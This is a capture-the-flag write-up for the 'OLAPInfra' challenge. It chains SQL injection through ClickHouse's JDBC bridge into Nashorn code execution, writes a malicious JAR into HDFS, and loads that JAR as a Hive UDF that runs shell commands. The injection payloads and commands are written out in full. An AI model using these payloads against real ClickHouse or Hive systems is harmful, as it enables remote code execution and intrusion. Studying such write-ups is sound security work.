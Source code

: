 OLAPInfra
=========

An easily solvable but challenging to setup challenge.

10 solves.

## Writeup


### Step 1

It is evident from the [ClickHouse documentation](https://github.com/ClickHouse/clickhouse-jdbc-bridge/blob/v2.1.0/README.md#usage) that the `clickhouse-jdbc-bridge` possesses the capability to execute JavaScript by Nashorn. Just RCE:

```sql
1=0 UNION ALL SELECT results, '', '', '' FROM jdbc('script:', 'java.lang.Runtime.getRuntime().exec("id")')
```

Some teams used SQLite JDBC's RCE [CVE-2023-32697](https://nvd.nist.gov/vuln/detail/CVE-2023-32697).

### Step 2

[Hive documentation](https://cwiki.apache.org/confluence/display/Hive/LanguageManual+DDL#LanguageManualDDL-CreateFunction) said Hive allows loading JAR file in HDFS to make a new UDF.

I'm using ClickHouse to manipulate HDFS directly. Alternatively, one could upload a HDFS client to accomplish this. To write data from ClickHouse to HDFS, the `INSERT INTO` statement is required. However, since nested queries are not supported by default, JDBC is needed to perform this operation.


```sql
1=0 UNION ALL SELECT results, '', '', '' FROM jdbc('jdbc:clickhouse://127.0.0.1:8123', CREATE_HDFS_SQL)
```

CREATE_HDFS_SQL=
```sql
CREATE TABLE hdfs_test (name String) ENGINE=HDFS('hdfs://namenode:8020/a.jar', 'Native');
INSERT INTO hdfs_test SETTINGS hdfs_create_new_file_on_insert=TRUE VALUES (unhex(UDF_HEX_DATA))
```

## Step 3

The need now arises to directly manipulate Hive from ClickHouse container. It becomes apparent that ClickHouse's Hive integration connects to the Metastore rather than HiveServer2 and also retrieves data from HDFS. Hive uses the Thrift protocol, which seems incompatible with ClickHouse's `url()` to establish a connection. So executing arbitrary Hive SQL directly with ClickHouse appears unlikely.

I uploaded a lightweight Hive client (1.4MB) written in Golang+UPX.

## Step 4

Simply instruct Hive to load the UDF in Clickhouse.

```bash
./clickhouse-to-hive "CREATE FUNCTION default.v as 'udf.Exec' USING JAR 'hdfs:///a.jar'"
./clickhouse-to-hive "SELECT default.v('uname -a')"
```
